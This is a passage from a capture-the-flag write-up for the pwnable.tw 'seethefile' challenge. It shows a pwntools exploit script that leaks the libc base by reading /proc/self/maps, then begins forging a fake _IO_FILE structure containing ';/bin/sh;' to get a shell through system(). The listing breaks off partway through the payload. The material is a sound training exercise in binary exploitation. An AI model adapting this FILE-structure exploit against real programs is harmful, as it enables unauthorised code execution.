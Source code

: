 ## Overview

This diagram displays my payload (on the right) alongside the corresponding structures. The `_IO_jump_t` and the 
`_IO_FILE` structs are overlaid on each other.

{{ svg(path="5e81a81b4304800866d6917b.svg") }}

## Final Script

```python
from pwn import *

context.binary = './seethefile'

elf = ELF('./seethefile')
libc = ELF('./libc_32.so.6')

r = remote('chall.pwnable.tw', 10200)

def openfile(path):
        r.recvuntil('choice :')
        r.sendline("1")
        r.recvuntil("see :")
        r.sendline(path)

def readfile():
        r.recvuntil('choice :')
        r.sendline("2")

def writefile():
        r.recvuntil('choice :')
        r.sendline("3")
        return r.recvuntil('---------------MENU---------------')[:-len('---------------MENU---------------')]

def closefile():
        r.recvuntil('choice :')
        r.sendline("4")

def exit(name):
        r.recvuntil('choice :')
        r.sendline("5")
        r.recvuntil('name :')
        r.sendline(name)

openfile('/proc/self/maps')
readfile()
readfile()

libc.address = int([x.split('-')[0] for x in writefile().split('\n') if x.endswith('.so')][0], 16)

info("Found libc base " + hex(libc.address))
info("Address of system " + hex(libc.symbols['system']))

file = ""                                       # file
file += p32(0xFFFFDFFF)                         # file->_flags  set _IO_IS_FILEBUF bit to false
file += ";/bin/sh;"                             # file->???     to be interpreted as a string

payload = file.ljust(32, 'A')                   # padding to reach *fp
payload += p32(elf.symbols['name'])             # *fp           overwrite *fp to point to the start of the name buffer
payload += '`'                                  # padding
```